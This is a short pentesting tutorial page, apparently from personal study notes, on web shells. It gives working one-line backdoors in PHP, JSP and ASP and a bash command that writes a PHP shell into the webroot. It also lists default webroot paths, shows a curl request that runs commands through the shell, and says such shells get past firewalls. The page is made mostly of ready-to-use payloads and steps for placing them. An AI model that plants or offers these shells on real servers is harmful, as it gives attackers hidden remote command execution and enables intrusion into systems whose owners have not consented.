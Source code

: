 ```yaml
---
title: Web Shells
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - web pentesting
  - web shells
---
```


# Web shells

A Web Shell is typically a web script that accepts our command through HTTP request parameters, executes our command, and prints its output back on the web page.

A web shell script is typically a one-liner that is very short and can be memorized easily.

## Some basic web shells

### php

```php
<?php system($_REQUEST["cmd"]); ?>
```

### jsp

```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

### asp

```asp
<% eval request("cmd") %>
```


## How to exploit a web shell

### File upload vs Remote code execution

**1.** **FILE UPLOAD: By abusing an upload feature.** We would place this web shell script into the remote host's web directory to execute the script through the web browser.

**2.** **REMOTE CODE EXECUTION: By writting our one-liner shell to the webroot to access it over the web**. This would be if onle have remote command execution as a exploit vector. Here an example for bash:

```bash
echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
```

So, for the second way of exploitation, it's relevant to identify where the webroot is. The following are the default webroots for common web servers:

| Web Server | Default Webroot |
| ------------ | ----------------- |
| Apache | /var/www/html/ |
| Nginx | /usr/local/nginx/html/ |
| IIS | c:\inetpub\wwwroot\ | 
| XAMPP | C:\xampp\htdocs\ | 

### Accessing the web shell

We can access to the web shell using the browser. Or Curl:

```shell-session
curl http://SERVER_IP:PORT/shell.php?cmd=id
```

A  benefit of a web shell is that it would bypass any firewall restriction in place, as it will not open a new connection on a port but run on the web port on 80 or 443, or whatever port the web application is using. 